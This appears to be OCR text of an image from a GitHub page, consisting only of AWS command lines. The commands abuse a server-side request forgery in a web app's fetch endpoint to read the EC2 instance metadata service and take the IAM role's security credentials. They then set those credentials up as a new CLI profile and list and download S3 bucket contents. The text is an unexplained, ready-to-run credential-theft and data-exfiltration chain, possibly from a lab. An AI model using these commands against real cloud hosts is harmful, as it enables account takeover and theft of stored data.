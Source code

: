 aws sts get-caller-identity

curl "http://<EC2_PUBLIC_IP>:5000/fetch?url=http://169.254.169.254/latest/meta-data/instance-id"

curl "http://<EC2_PUBLIC_IP>:5000/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

curl "http://<EC2_PUBLIC_IP>:5000/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[role name]"

aws configure --profile [new profile name]

vi ~/.aws/credentials

aws sts get-caller-identity --profile [new profile name]

aws s3 ls --profile [new profile name]

aws s3 ls [bucket name]

aws s3 cp s3://[bucket name]/[file name] ./[file name]


